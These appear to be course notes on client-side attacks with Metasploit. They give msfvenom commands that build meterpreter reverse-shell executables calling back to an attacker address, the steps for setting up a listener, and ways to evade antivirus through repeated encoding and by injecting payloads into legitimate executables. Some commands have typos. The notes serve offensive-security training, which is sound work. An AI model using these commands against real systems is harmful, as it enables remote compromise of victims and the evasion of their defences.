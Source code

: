 involves coercing the a client to execute a malicious payload on their system that connects back to the attacker when executed

normally utilize a form of social engineering and take advanctage of human vulnerabilities as opposed to vulns in services or softwares

attackers must be cognisant of AV detection and evasion

generate payloads - msfvenom

https://github.com/frizb/MSF-Venom-Cheatsheet
https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom

For this course we primarily will be created meterpreter payloads.

staged: 
will be named as such:
OS/xarc/meterpreter/proto_col
ex. windows/x64/meterpreter/reverse_https

nonstaged:
will be named as such:
os/xarc/meterpreter_proto_col
ex. windows/x64/meterpreter_reverse_https

generating a payload 

msfvenom -a xarch -p os/xarc/meterpreter_proto_col LHOST=lhost.addr LPORT=1337 -f .ext > /path/to/storefile/filename.ext

ex.
msfvenom -a x64 -p windows/x64/meterpreter_reverse_https LHOST=192.168.1.100 LPORT=1337 -f .exe ? /home/payloads/shell.exe

then to configure your listener

use multi/hander
set payload (match payload you created.

then set your options to match what you configured in msfvenom

encoding payloads is required to bypass AV detection (signature based detection)

you can encode the payload with the -e tag in msfvenom. The more iterations of encoding you perform the more successful your masking will be.

example
msfvenom -a x86 -p windows/x86/meterpreter_reverse_https LHOST=192.168.1.100 LPORT=1337 -i 10 -e x86/shikata_ga_nai -f .exe ? /home/payloads/shell.exe

To inject your payload into another executable you can use the -x tag. You can also use the -k opton that will keep the original functionality of the executable. This won't work for many portable executables only select ones but this feature has limited functionality.

You can automate repetitive tasks with resource scripts: 

https://docs.rapid7.com/metasploit/resource-scripts/

default location in kali is /usr/share/metasploit-framework/scripts/resource
